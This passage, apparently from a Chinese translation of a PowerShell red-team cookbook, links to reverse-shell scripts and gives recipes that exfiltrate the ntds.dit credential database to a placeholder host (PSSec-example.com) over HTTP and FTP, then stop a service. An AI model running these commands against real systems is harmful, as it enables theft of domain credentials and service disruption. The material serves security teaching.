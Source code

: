 ```
$client.Close()
```

你可以在本章的 GitHub 仓库中找到这段代码：

+   客户端：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter08/RevShell_Client.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter08/RevShell_Client.ps1)

+   服务器：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter08/RevShell_Server.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter08/RevShell_Server.ps1)

当然，也有一些工具，如 PowerShell Empire 和 Metasploit，已经有模块可以自动生成有效负载并打开反向 shell。

## 导出

在导出阶段，红队员尝试从受害者的网络中窃取并导出数据。

### 导出文件并将其上传到 Web 服务器

你想要导出一个文件的内容并将其上传到 Web 服务器。

#### 解决方案

你可以通过读取目标文件的字节，将它们转换为**Base64**字符串，并使用**Invoke-WebRequest**将其上传到 Web 服务器来实现目标：

```
> $FileContent = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\shadowcopy\Windows\NTDS\ntds.dit"))
> Invoke-WebRequest -uri http://PSSec-example.com/upload -Method POST -Body $FileContent
```

在这个例子中，我们将之前提取的 Base64 编码的**ntds.dit**文件作为影像副本上传到**http://PSSec-example.com/upload**（该网址并不存在，我们只是为了这个示例虚构的）。

也可以使用**System.NET.WebClient**类来提取和上传文件。以下代码片段展示了如何实现这一目标：

```
> $FileToUpload = "C:\shadowcopy\Windows\NTDS\ntds.dit"
> (New-Object System.NET.WebClient).UploadFile("ftp://PSSec-example.com/ntds.dit, $FileToUpload)
```

## 影响

影响阶段的配方旨在引发混乱；红队员试图中断、破坏或操控系统或数据。

### 停止服务

你想要停止一个服务。

#### 解决方案

为此，你可以使用**Stop-Service** cmdlet：

```
> Stop-Service -Name Spooler -Force
```
